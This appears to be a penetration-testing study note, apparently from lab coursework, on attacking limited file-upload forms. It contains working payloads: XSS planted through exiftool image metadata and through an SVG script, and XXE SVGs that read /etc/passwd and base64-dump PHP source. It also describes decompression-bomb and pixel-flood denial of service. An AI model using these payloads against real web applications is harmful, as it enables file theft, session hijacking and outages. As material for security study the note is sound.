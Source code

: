```yaml
---
title: e-Limited File Uploads
draft: false
tags:
  - xxe
  - svg
---
```

Even if we are dealing with a limited/non-arbitrary file upload form, we may still be able to perform some attacks.

## XSS

Many file types may allow us to introduce a `Stored XSS` vulnerability to the web application by uploading maliciously crafted versions of them.

e.g If web app allows to upload `HTML` file, we can inject JavaScript code in it and whoever views the uploaded HTML file might get affected.

e.g XSS attack where web app display an image's metadata after its upload:

```shell-session
[!bash!]$ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
[!bash!]$ exiftool HTB.jpg
...SNIP...
Comment                         :  "><img src=1 onerror=alert(window.origin)>
```

e.g XSS using SVG images: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

## XXE

With SVG image, we can have malicious XML data to leak the source code of the web app, and other internal documents within the server.

e.g Following can be used for an SVG image that leaks the content of `/etc/passwd`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

e.g To use XXE to read source code in PHP web applications, we can use the following payload in our SVG image:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

## DoS

- `Decompressions Bomb` - Many nested ZIP archives, leading to crash on the back-end server.
- `Pixel Flood` -  We can create any `JPG` image file with any image size (e.g. `500x500`), and then manually modify its compression data to say it has a size of (`0xffff x 0xffff`), which results in an image with a perceived size of 4 Gigapixels. 